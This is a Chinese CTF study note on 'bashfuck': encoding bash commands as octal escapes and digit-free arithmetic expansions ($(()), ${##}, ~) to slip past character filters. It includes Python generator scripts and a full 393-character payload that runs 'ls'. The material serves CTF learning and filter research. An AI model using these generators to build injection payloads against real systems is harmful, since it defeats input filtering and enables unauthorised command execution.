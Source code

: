 0x0e前言
======

本来是在CTF刷刷题目，然后有个知识点不太明白所以就去找着了lazy师傅问了一下，结果发了一个bashfuck的知识点过来（x，本来一个简单的绕过却有了新的思路，索性来记录一下。

注意：因为debian、Ubuntu系统的sh软连接是到dash的，centos的sh软链接连接到bash，但是kali的zsh不是很兼容dash所以IFS就解析不了，还是直接用空格代替即可
===============================================================================================

0x01common\_oct
===============

这个就是最常规的可以用十六进制，或者八进制来执行命令

```python
sum_data = ''
str1 = input("请输入要转化的命令:")
str1 = str1.strip()  # 去除首尾空格
data_len = len(str1)  # 判断总长度来循环
for i in range(data_len):
    data = ord(str1[i])
    if data == ord(' '):  # 检查空格字符
        sum_data += "'$IFS$'"
    else:
        data_8 = oct(data)[2:]
        final_data = '\\' + data_8
        sum_data += final_data
print("common_oct")
print("$'" + sum_data + "'")
```

出来直接使用即可，在kali里面的ifs直接用空格代替即可  
example：

```shell
$'\154\163' #= ls
```

0x02bashfuck\_x
===============

运用到的原理就是算术拓展`$(())`，这个的返回值为0，并且可以有这种用法`$((1<<1)#2binary)`来构造出一些命令  
还是拿ls来举例子，如果不去利用二进制来构造可以这么写

```shell
"$"''\''\'$(($((1))54))'\'$(($((1))63))\'
```

构造出来就是common\_oct的写法  
然后这里也可以使用二进制来构造

```shell
$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
```

因为相对于前面的你构造出54啊或者是其他数字比较麻烦，而在探姬师傅的wiki下面说明了几种可以表示0和1的方法，所以用01来代替能利用py快速的得出结果并且可以实现无数字来打  
一些对应：

```shell
>echo ${#}
>0
>echo ${##}
>1
>echo ${#_}
>1
>echo ${_}
>1
>echo ${?}
>0
>echo ${?#}
>1
```

等等都可以用来构造  
下面附上相关函数

```python
def bashfuckx():
    final_str1 = ''
    final_str2 = ''
    final_str3 = ''
    str3 = input("请输入要转化的命令:")
    for j in str3:
        final_str1 += '$0<<<$0\\<\\<\\<\\$\\\'' +f'\\\\$(($((1<<1))#{bin(int(get_oct(j)))[2:]}))'+ '\\\''
        final_str2 = '$0<<<$0\\<\\<\\<\\$\\\'' +final_str1.replace('1', '${##}')+ '\\\''  # 用 ${##} 来替换 1
        final_str3 = '${!#}<<<${!#}\\<\\<\\<\\$\\\'' +final_str1.replace('1', '${##}').replace('0', '${#}')+ '\\\''  # 用 ${#} 来替换 0
    result = input("请输入你要的格式\n1代表直接转化\n2代表替换1\n3代表全部替换（无数字）")
    if result == '1':
        print(final_str1)
    elif result == '2':
        print(final_str2)
    elif result == '3':
        print(final_str3)
    else:
        print("无效输入！")

```

然后这里需要解决一个问题，你会发现你直接执行命令是没办法执行的，这里探姬师傅也是给出了相关的连接  
[https://www.gnu.org/software/bash/manual/html\_node/Shell-Expansions.html](https://www.gnu.org/software/bash/manual/html_node/Shell-Expansions.html)  
总的来说就是扩展顺序，我们在八进制转义的时候已经扩展了一次，所以后面不会再次解析  
所以这里就用标准输出来完成解析

```shell
/bin/bash<<<
```

所以最后的playload的前面要加上:`$0<<<`  
`$0` 可以表示当前脚本的文件名，在终端中，`$0`其实就是bash本身。

0x03bashfuck\_y
===============

这里和上面的都差不多只是对-1的取反进行了利用

```php
oct_list = [  # 构造数字 0-7 以便于后续八进制形式的构造
    '$(())',  # 0
    '$((~$(($((~$(())))$((~$(())))))))',  # 1
    '$((~$(($((~$(())))$((~$(())))$((~$(())))))))',  # 2
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 3
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 4
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 5
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 6
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 7
]
```

这样就可以使用`$(())`去构造`$'\xxx\xxx\xxx\xxx'`

再引入我们前面提到的，变量赋值，我们就可以轻松的用`$(())`拿到sh

```shell
bashFuck = ''
bashFuck += '__=$(())'  # set __ to 0
bashFuck += '&&'  # splicing
bashFuck += '${!__}<<<${!__}\\<\\<\\<\\$\\\''  # got 'sh'
# bashFuck = __=$(())&&${!__}<<<${!__}\\<\\<\\<\\$\\\'
```

得到我们第四种playload:

```shell
Command:ls
Charset : ! $ & ' ( ) < = \ _ { } ~
Total Used: 13
Total length = 393
Payload = __=$(())&&${!__}<<<${!__}\<\<\<\$\'\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\'
```

参考文章：  
<https://github.com/ProbiusOfficial/bashFuck?tab=readme-ov-file>
